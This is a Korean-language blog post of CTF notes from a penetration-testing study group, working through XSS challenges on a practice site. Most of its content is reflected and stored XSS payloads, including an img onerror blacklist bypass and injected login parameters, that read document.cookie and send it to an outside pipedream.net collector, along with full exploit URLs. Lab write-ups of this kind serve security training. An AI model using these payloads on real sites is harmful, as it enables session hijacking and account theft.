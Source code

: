```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: XSS"
excerpt: "모의해킹 취업반 스터디 7기 9주차"

date: 2024-12-18
last_modified_at: 2024-12-30

tags: [TIL, WEB]
---
```


# XSS 1
## index.php

## login.html

## signup.html

### signup.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-1.png?raw=true)

## qna_board.php

## qna.php
### qna_create.php

## notice_list.php
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-2.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-3.gif?raw=true)
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-12-18-4.gif?raw=true)

## notice_write.php
### notice_write_process.php

## mypage.php
### mypage_update.php

# xss2
## notice_list.php의 search 부분 -> reflected xss
```js
');
let c = document.cookie;
console.log(c);
let i = new Image();
console.log(i);
i.src = "https://eot2jevtyijbm2l.m.pipedream.net/?cookie=" + c;
let tmp=('
```

link: <http://ctf.segfaulthub.com:4343/xss_2/notice_list.php?option_val=username&board_result=');let+c=document.cookie;console.log(c);let+i=new+Image();console.log(i);i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;let+tmp=('&board_search=%F0%9F%94%8D&date_from=&date_to=>

# xss3
notice_list.php의 search 부분은 html entity로 치환
## mypage -> reflected xss

```html
<img src=. onerror='
let c=document.cookie;
let i=new Image();
i.src="https://eot2jevtyijbm2l.m.pipedream.net/?cookie="+c;'>
```
+ -> %2B
<img+src=.+onerror='let+c=document.cookit;let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;'>

# xss4
## notice_list -> stored xss
script, alert <- black list filtering
`<img src=. onerror="prompt(1)">`

```html
<img src=. onerror="let cookie = document.cookie;let img = new Image();img.src = 'https://eot2jevtyijbm2l.m.pipedream.net/?cookie=' + cookie;">
```

# xss5

# xss6
# login.php
id=
```js
');
let c=document.cookie;
let i=new Image();
i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="+c;
console.log('
```
pw=1
id=');let+c="test";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;console.log('&pw=1

link: http://ctf.segfaulthub.com:4343/xss_7/login.php?id=');let+c="test";let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;alert(c);alert(i);console.log('&pw=1
link: http://ctf.segfaulthub.com:4343/xss_7/login.php?id=');let+c=document.cookie;let+i=new+Image();i.src="https://eoxee0fw4m1u2sw.m.pipedream.net/?cookie="%2Bc;console.log(c);console.log('&pw=